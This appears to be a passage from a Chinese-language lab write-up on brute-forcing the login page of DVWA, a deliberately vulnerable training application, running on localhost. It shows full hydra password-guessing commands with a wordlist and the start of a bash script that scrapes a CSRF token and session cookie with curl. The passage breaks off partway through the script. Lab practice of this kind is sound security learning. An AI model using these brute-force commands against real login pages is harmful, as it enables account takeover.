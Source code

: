![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%201.png)

```
admin:123456
```

但在測試後發現密碼不對，代表 hydra 受到延遲的影響而誤判了，可能要刻意延遲送出才行

雖然加上了跟延遲相關的參數，hydra 用起來還是有些怪怪的，有時候找不到正確的密碼，每次結果都不同 ＠＠，將難度調回 low 重測也是一樣 QQ，可能要用別的工具試試看

```bash
hydra -e ns -F -t 1 -W 5 \
-v -V \
-l admin \
-P 10-million-password-list-top-10000.txt \
-s 8086 \
-f localhost \
http-form-get \
"/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

```
hydra -V -t 1 -c 3 -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

### DIY tool

一氣之下，決定自己寫腳本來慢慢爆破 🥲

原本考慮用 puppeteer 或 cypress 這類的測試框架來寫，但情況還沒那麼複雜，也想多練習 bash 所以就用 bash 來寫

```bash
#!/usr/bin/env bash
# DVWA host
HOST=http://localhost:8086
# create cookie and save csrf token
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "${HOST}/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
# save session id
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)

# user & password for login to start tasks
USER=admin
LOGIN_PASSWORD=password

# login at login page
curl -v -L -c cookies.txt -b cookies.txt \
```